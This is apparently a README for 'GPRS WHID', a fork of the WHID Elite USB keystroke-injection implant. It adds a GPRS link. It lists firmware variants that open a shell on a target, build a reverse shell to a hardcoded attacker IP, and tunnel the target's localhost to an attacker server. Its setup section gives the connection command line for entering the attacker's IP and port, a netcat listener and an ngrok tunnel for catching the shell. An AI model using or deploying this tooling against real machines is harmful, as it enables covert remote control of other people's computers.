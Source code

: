 # GPRS WHID
This project is a fork of the whid elite. 
It extend the inital attack by integrating GPRS connection to it.  
This attack was designed to run on a modified version of the whid Elite with an Atmel Samd instead of an Atmel mega 32U4. 
## Hardware
TODO 
## Firmwares 
### Organisation 
This project provide various attacks each in a different folder: 
- The ``keystoke-injection`` provide a firmware that will open a shell on the target and only write on it every commands received via TCP.
- The ``testserial`` firmware can be used to check the serial connection between the whid and a computer.
- The ``reverseshell-qwerty`` will establish a complete reverse shell between the target and the attacker. It will connect to the hardcoded ip provided in the code and write a payload on the target. 
- The ``reverseshell-AZERTY`` does the same thing but with an  AZERTY target. 
- Inside ``TCP`` we can find an attack were the WHID setup a TCP connection beetween the localhost:4445 of the target and the server of the attacker. The attacker can add his payload inside th firmware and use this canala s a regular TCP connection



### Requirement 
#### Whid side  
- Arduino SAMD boards drivers v1.6.12
- Keyboard Library
- Adafruit Fona Library 

On th .ino file, you will need to add your public IP address and the port your are listenning on: 
```CPP
if(!fona.sendCheckReply("AT+CIPSTART=\"TCP\",\"IPV4 Adress\",\"PORT\"",F("OK"),100))
```
#### Server side 
You need to setup a TCP server available behind a public IPV4 address. Netcat can do it easily:
```bash
netcat -lntvp <port>
```
If you don't have a public IPV4, you can use ngrok.io : 
```bash
ngrok.io => ./ngrok tcp <port>
```